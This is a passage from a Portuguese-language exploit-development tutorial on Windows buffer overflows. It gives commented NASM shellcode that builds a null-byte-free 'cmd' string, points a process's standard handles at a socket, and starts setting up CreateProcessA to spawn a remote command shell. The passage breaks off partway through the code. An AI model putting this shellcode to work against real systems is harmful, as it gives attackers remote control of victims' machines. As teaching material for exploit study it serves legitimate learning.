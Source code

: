 Vamos encontrar o endereço da função no Win10 21H1.

![Enumaração do comando.](/img/std/winbof/winbof-41.png)

Primeiro precisamos chamar a função “cmdA” que não existe, em seguida vamos usar a função “shr” (Shift Right) que vai mover os bytes à direita e zerar a origem, mais detalhes sobre a função [aqui](https://www.plantation-productions.com/Webster/www.artofasm.com/DOS/ch06/CH06-3.html). O resultado final será “cmd\x00” sem que precisemos digitar o null byte.

Vamos ao código:

```nasm
; CreateProcessA()

mov ebx, 0x646d6341     ; Movendo 'cmda' para EBX evitando null byte
shr ebx, 8              ; Transformando EBX em 'cmd\x00'
push ebx                ; Fazendo push do cmd
mov ecx, esp            ; Fazendo ECX apontar para cmd

; Preenchendo parametro '_STARTUPINFOA'

xor edx, edx            ; Zerando EDX
push esi                ; Enviando hStdError para nosso socket
push esi                ; Enviando hStdOutput para nosso socket
push esi                ; Enviando hStdInput para nosso socket
push edx                ; cbReserved = null
push edx                ; wShowWindow = null
xor eax, eax            ; Zerando EAX
mov ax, 0x0101          ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Fazendo push do dwFlags
push edx                ; dwFillAtribute = null
push edx                ; dwYCountChars = null
push edx                ; dxXCountChars = null
push edx                ; dwYSize = null
push edx                ; dwXSize = null
push edx                ; dwY = null
push edx                ; dwX = null
push edx                ; lpTitle = null
push edx                ; lpDesktop = null
push edx                ; lpReserved = null
add dl, 44              ; cb = 44
push edx                ; Fazendo push da _STARTUPINFOA para a stack
mov eax, esp            ; Fazendo o EAX apontar para ESP, onde esta a _STARTUPINFOA
xor edx, edx            ; Zerando EDX

; Preenchendo o parametro 'PROCESS_INFORMATION'

push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12

; Chamando a CreateProcessA()

push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx, ebx            ; Zerando EBX
push ebx                ; lpCurrentDirectory = nulo
push ebx                ; lpEnvironment = nulo
push ebx                ; dwCreationFlags = nulo
inc ebx                 ; Incrementando 1 ao EBX zerado (bInheritHandles = True)
```